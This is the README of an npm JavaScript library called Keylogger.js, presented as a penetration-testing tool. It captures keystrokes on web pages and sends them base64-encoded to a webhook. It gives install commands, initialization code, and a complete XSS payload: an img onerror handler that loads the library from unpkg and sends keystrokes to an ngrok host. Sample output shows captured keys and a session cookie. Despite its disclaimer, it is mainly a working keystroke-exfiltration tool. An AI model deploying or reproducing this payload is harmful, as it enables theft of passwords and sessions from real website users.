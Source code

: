# Keylogger.js
**Keylogger.js** is a lightweight JavaScript library for ethical hacking, penetration testing, and security research. It allows security professionals to capture keyboard events and send them securely to a specified webhook for analysis. Designed for ethical use only, this library serves as a tool for demonstrating vulnerabilities in applications and enhancing system security.

## ⚠️ Disclaimer
This library is intended **only for ethical purposes** such as security research and testing within authorized environments. Unauthorized use, including any malicious or illegal intent, is strictly prohibited. The author disclaims all responsibility for any misuse of this software.

## Features
- **Lightweight**: keylogger.js is a lightweight library that can be easily integrated into any web application.
- **Secure**: All captured keyboard events are base64 encoded and sent securely to a specified webhook.
- **Customizable**: Developers can customize the library to suit their needs, including changing the webhook URL and adding additional functionality.
- **Modular**: Built using modern TypeScript for robust type safety and developer experience.

## Installation
You can install **Keylogger.js** via npm or yarn:

```bash
# Using bun
bun install @mihnea.dev/keylogger.js
# Using npm
npm install @mihnea.dev/keylogger.js
# Using yarn
yarn add @mihnea.dev/keylogger.js
```

## Usage
To use keylogger.js in your web application, you need to import the library and initialize it with your webhook URL:

```typescript
import Keylogger from '@mihnea.dev/keylogger.js';

/* Initialize the Keylogger with your webhook */
const _: Keylogger = new Keylogger('https://your-webhook-url.com');
```

Should you embed the script directly in your HTML file, you can initialize the library as follows:

```html
<script>
    import Keylogger from 'https://unpkg.com/@mihnea.dev/keylogger.js/dist/index.js';
    const keylogger = new Keylogger('https://your-webhook-url.com', false);
    console.log('Keylogger initialized:', keylogger);
</script>
```

## Configuration Options
Keylogger.js supports several configuration options that can be passed to the constructor:
- `webhook`: The URL to which the captured keyboard events will be sent.
- `logAll`: A boolean flag indicating whether all keyboard events should be logged (default: `false`).

## Example 
This example demonstrates how to use Keylogger.js in a controlled testing environment by integrating the Python server, exposing it using Ngrok, and embedding the library into a vulnerable webpage to simulate XSS.

### 1. Start the Python Webhook Server
The Python server included in [`./examples/server.py`](./examples/server.py) listens for incoming requests from Keylogger.js. It decodes Base64-encoded payloads and logs them. To start the server, run the following command:

```bash
python3 examples/server.py
```

### 2. Expose the Server Using Ngrok
To expose the Python server to the internet, use Ngrok. Run the following command to start an HTTP tunnel:

```bash
ngrok http 3000
```

### 3. Embed Keylogger.js in a Webpage
This step demonstrates embedding Keylogger.js into a vulnerable webpage as part of an XSS simulation.

```html
<img src="invalid.jpg" onerror="
    const script = document.createElement('script');
    script.src = 'https://unpkg.com/@mihnea.dev/keylogger.js/dist/index.js';
    document.body.appendChild(script);
    script.onload = () => {
        const _ = new Keylogger('https://<random-id>.ngrok.io', false);
    };
">
```
![keylogger js](https://github.com/user-attachments/assets/716178d9-5a57-4bdd-9bc6-2788a705c05f)

### Observing Results:
1. The Keylogger.js library captures keystrokes and sends them to the webhook.
2. The Python server decodes the Base64-encoded payload and logs the captured keystrokes.
```bash
Decoded Payload: {"type":"enter","value":"a","session":{...}}
Parsed JSON:
{
    "type": "enter",
    "value": "asdf",
    "session": {
        "id": "unique-session-id",
        "created_at": "2024-11-29T18:00:00Z",
        "user_agent": "Mozilla/5.0",
        "session_cookie": "master-kw-session"
    }
}
```

## Security Considerations
- Ensure you use this library only in authorized and controlled environments.
- Do not use this tool for any illegal or unauthorized activity.
- Always notify and gain consent from stakeholders before testing.

## Contributing
Contributions are welcome! Feel free to open issues or submit pull requests to improve the library.

## License
This project is licensed under the MIT License. See the [LICENSE](./LICENSE) file for more information.
